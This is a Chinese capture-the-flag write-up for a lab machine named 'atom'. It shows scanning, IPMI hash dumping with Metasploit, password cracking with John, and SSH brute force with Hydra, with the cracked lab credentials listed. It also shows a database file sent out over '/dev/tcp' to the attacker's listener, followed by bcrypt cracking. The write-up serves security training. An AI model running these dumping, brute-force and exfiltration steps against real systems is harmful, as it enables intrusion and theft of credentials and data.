



## Box Info

| OS | Linux |
| --- | --- |
| Difficulty | Easy |

## Nmap

```
[root@kali] /home/kali/atom  
❯ nmap 192.168.55.12 -sV -A -p-

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 9.2p1 Debian 2+deb12u2 (protocol 2.0)
| ssh-hostkey: 
|   256 e7:ce:f2:f6:5d:a7:47:5a:16:2f:90:07:07:33:4e:a9 (ECDSA)
|_  256 09:db:b7:e8:ee:d4:52:b8:49:c3:cc:29:a5:6e:07:35 (ED25519)
```

只有**22**端口开放？有趣

扫一下**UDP**端口

```
[root@kali] /home/kali/atom  
❯ nmap 192.168.55.12 -sU --top-ports 100                                                                                                      ⏎

PORT    STATE SERVICE
623/udp open  asf-rmcp
```

## IPMI

IPMI（智能平台管理接口）能够横跨不同的操作系统、固件和硬件平台，可以智能的监视、控制和自动回报大量服务器的运作状况，以降低服务器系统成本。

参考：[623/UDP/TCP - IPMI - HackTricks](https://book.hacktricks.wiki/en/network-services-pentesting/623-udp-ipmi.html?highlight=623#623udptcp---ipmi)

```
msf6 auxiliary(scanner/ipmi/ipmi_dumphashes) > show options 

Module options (auxiliary/scanner/ipmi/ipmi_dumphashes):

   Name                  Current Setting                        Required  Description
   ---- --------------- -------- -----------
   CRACK_COMMON          true                                   yes       Automatically crack common passwords as they are obtained
   OUTPUT_HASHCAT_FILE                                          no        Save captured password hashes in hashcat format
   OUTPUT_JOHN_FILE      output                                 no        Save captured password hashes in john the ripper format
   PASS_FILE             /usr/share/metasploit-framework/data/  yes       File containing common passwords for offline cracking, one per line
                         wordlists/ipmi_passwords.txt
   RHOSTS                192.168.55.12                          yes       The target host(s), see https://docs.metasploit.com/docs/using-metas
                                                                          ploit/basics/using-metasploit.html
   RPORT                 623                                    yes       The target port
   SESSION_MAX_ATTEMPTS  5                                      yes       Maximum number of session retries, required on certain BMCs (HP iLO
                                                                          4, etc)
   SESSION_RETRY_DELAY   5                                      yes       Delay between session retries in seconds
   THREADS               1                                      yes       The number of concurrent threads (max one per host)
   USER_FILE             /usr/share/seclists/Usernames/Names/n  yes       File containing usernames, one per line
                         ames.txt

View the full module info with the info, or info -d command.
```

然后进行密码爆破

```
[root@kali] /home/kali/atom  
❯ john output --wordlist=/usr/share/wordlists/rockyou.txt  
Using default input encoding: UTF-8
Loaded 36 password hashes with 36 different salts (RAKP, IPMI 2.0 RAKP (RMCP+) [HMAC-SHA1 128/128 AVX 4x])
Will run 8 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
phones           (192.168.55.12 palmer)     
castillo1        (192.168.55.12 stacey)     
2468             (192.168.55.12 carsten)     
milo123          (192.168.55.12 deshawn)     
jiggaman         (192.168.55.12 onida)     
sexymoma         (192.168.55.12 terra)     
me4life          (192.168.55.12 sibylle)     
chatroom         (192.168.55.12 fabien)     
122987           (192.168.55.12 cati)     
mackenzie2       (192.168.55.12 merola)     
TWEETY1          (192.168.55.12 asia)     
10101979         (192.168.55.12 wai-ching)     
jesus06          (192.168.55.12 briella)     
jaffa1           (192.168.55.12 ranga)     
071590           (192.168.55.12 harrie)     
number17         (192.168.55.12 jerrilee)     
darell           (192.168.55.12 richardson)     
billandben       (192.168.55.12 kalie)     
honda            (192.168.55.12 analiese)     
kittyboo         (192.168.55.12 shirin)     
515253           (192.168.55.12 pauly)     
290992           (192.168.55.12 bqb)     
poynter          (192.168.55.12 zali)     
numberone        (192.168.55.12 kaki)     
djones           (192.168.55.12 riyaz)     
090506           (192.168.55.12 saman)     
emeralds         (192.168.55.12 karlotte)     
081704           (192.168.55.12 jem)     
120691           (192.168.55.12 zaylen)     
tripod           (192.168.55.12 ende)     
241107           (192.168.55.12 mayeul)     
trick1           (192.168.55.12 laten)     
evan             (192.168.55.12 glynn)     
batman!          (192.168.55.12 rozalia)     
dezzy            (192.168.55.12 els)     
cukorborso       (192.168.55.12 admin)   
```

扔给**Hydra**尝试爆破登录

```
[root@kali] /home/kali/atom  
❯ hydra -C cred ssh://192.168.55.12 -I                                                                                     ⏎
Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2025-04-21 23:13:39
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[DATA] max 16 tasks per 1 server, overall 16 tasks, 37 login tries, ~3 tries per task
[DATA] attacking ssh://192.168.55.12:22/
[22][ssh] host: 192.168.55.12   login: onida   password: jiggaman
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2025-04-21 23:13:48
```



## Root

注意到机器中存在**docker**环境

```
onida@atom:/tmp$ ip a
1: lo: <LOOPBACK,UP,LOWER_UP> mtu 65536 qdisc noqueue state UNKNOWN group default qlen 1000
    link/loopback 00:00:00:00:00:00 brd 00:00:00:00:00:00
    inet 127.0.0.1/8 scope host lo
       valid_lft forever preferred_lft forever
    inet6 ::1/128 scope host noprefixroute 
       valid_lft forever preferred_lft forever
2: enp0s3: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc fq_codel state UP group default qlen 1000
    link/ether 08:00:27:5c:29:73 brd ff:ff:ff:ff:ff:ff
    inet 192.168.55.12/24 brd 192.168.55.255 scope global dynamic noprefixroute enp0s3
       valid_lft 357sec preferred_lft 357sec
    inet6 fe80::1c10:8025:62af:f8b/64 scope link noprefixroute 
       valid_lft forever preferred_lft forever
3: docker0: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc noqueue state UP group default 
    link/ether 02:42:e1:81:99:86 brd ff:ff:ff:ff:ff:ff
    inet 172.17.0.1/16 brd 172.17.255.255 scope global docker0
       valid_lft forever preferred_lft forever
    inet6 fe80::42:e1ff:fe81:9986/64 scope link 
       valid_lft forever preferred_lft forever
5: veth3316341@if4: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc noqueue master docker0 state UP group default 
    link/ether 5e:24:c1:41:22:74 brd ff:ff:ff:ff:ff:ff link-netnsid 0
    inet6 fe80::5c24:c1ff:fe41:2274/64 scope link 
       valid_lft forever preferred_lft forever
```

并且有内网端口开放

```
onida@atom:/tmp$ ss -tuln
Netid       State        Recv-Q       Send-Q             Local Address:Port              Peer Address:Port      Process      
udp         UNCONN       0            0                        0.0.0.0:623                    0.0.0.0:*                      
tcp         LISTEN       0            4096                     0.0.0.0:623                    0.0.0.0:*                      
tcp         LISTEN       0            128                      0.0.0.0:22                     0.0.0.0:*                      
tcp         LISTEN       0            4096                   127.0.0.1:41553                  0.0.0.0:*                      
tcp         LISTEN       0            511                    127.0.0.1:80                     0.0.0.0:*                      
tcp         LISTEN       0            128                         [::]:22                        [::]:*       
```

先查看一下网站目录

```
onida@atom:/var/www/html$ ls -al
total 172
drwxr-xr-x 6 www-data www-data   4096 May 27  2024 .
drwxr-xr-x 3 root     root       4096 May 25  2024 ..
-rwxr-xr-x 1 www-data www-data 114688 May 27  2024 atom-2400-database.db
drwxr-xr-x 2 www-data www-data   4096 Dec 31  2400 css
drwxr-xr-x 4 www-data www-data   4096 Dec 31  2400 img
-rw-r--r-- 1 www-data www-data  11767 Dec 31  2400 index.php
drwxr-xr-x 2 www-data www-data   4096 Dec 31  2400 js
-rw-r--r-- 1 www-data www-data   6262 Dec 31  2400 login.php
-rwxr-xr-x 1 www-data www-data   1637 Dec 31  2400 profile.php
-rw-r--r-- 1 www-data www-data   5534 Dec 31  2400 register.php
drwxr-xr-x 2 www-data www-data   4096 Dec 31  2400 video
```

将这个数据库文件转出来

```
onida@atom:/var/www/html$ caat atom-2400-database.db  > /dev/tcp/192.168.55.4/8888

[root@kali] /home/kali/atom  
❯ nc -lvnp 8888 > atom-2400-database.db
listening on [any] 8888 ...
connect to [192.168.55.4] from (UNKNOWN) [192.168.55.12] 54048
```



爆破密码

```
[root@kali] /home/kali/atom  
❯ john hash.txt --wordlist=/usr/share/wordlists/rockyou.txt
Using default input encoding: UTF-8
Loaded 1 password hash (bcrypt [Blowfish 32/64 X3])
Cost 1 (iteration count) is 1024 for all loaded hashes
Will run 8 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
madison          (?)     
1g 0:00:00:00 DONE (2025-04-21 23:22) 1.470g/s 317.6p/s 317.6c/s 317.6C/s alejandro..jessie
Use the "--show" option to display all of the cracked passwords reliably
Session completed. 
```



## Summary

`User`：通过**IPMI**服务泄露出用户密码，进行**ssh**登录爆破

`Root`：数据库文件解密，得到**root**密码
